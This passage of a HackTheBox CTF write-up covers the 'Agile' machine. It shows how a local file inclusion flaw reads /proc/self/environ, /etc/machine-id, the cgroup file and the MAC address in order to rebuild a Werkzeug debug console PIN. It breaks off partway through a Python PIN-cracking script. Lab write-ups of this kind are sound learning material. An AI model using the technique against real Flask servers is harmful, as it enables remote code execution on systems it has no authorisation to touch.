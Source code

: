 I always find LFI with the `/proc` directory useful for case like this. We can get the environment of the process at `/proc/self/environ`, the `self` will lead us to the /proc dir of the current working process without knowing its PID.

> Proc file system (procfs) is a virtual file system created on the fly when the system boots and is dissolved at the time of system shutdown.  It contains useful information about the processes that are currently  running, it is regarded as a control and information center for the  kernel. The proc file system also provides a communication medium  between kernel space and user space.

Or alternatively, we can use `getattr(app, '__name__', getattr (app .__ class__, '__name__'))`

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_user.png)

The user is `www-data`.

#### Module name

We can download the `app.py` file and see that the module name is by default `flask.app`

#### Application name and path

Thanks to the debug information, we can also know that the application working dir is `/app/venv/lib/python3.10/site-packages/flask/app.py` and the application name is `wsgi_app`

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_wsgiapp.png)

#### Private_bits

MAC: `/proc/net/arp` to get the interface and then `/sys/class/net/eth0/address` to get the MAC `00:50:56:b9:da:2c`

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_eth0.png)

```python
>>>print(0x005056b9da2c)
345052404268
```

Machine-id: `/etc/machine-id` we got `ed5b159560f54721827644bc9b220d00`

Cgroup value: `/proc/self/cgroup` and take the last part, split by `/` : `superpass.service`

So the first `private_bits` value is 345052404268 and the second is ed5b159560f54721827644bc9b220d00superpass.service

So we have all the ingredients to recreate the PIN. I use these code below from [this article](https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/) to recover it:

```python
import hashlib
import itertools
from itertools import chain

def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.md5()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.sha1()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
    probably_public_bits = [
            username,
            modname,
            appname,
            flaskapp_path ]
    private_bits = [
            node_uuid,
```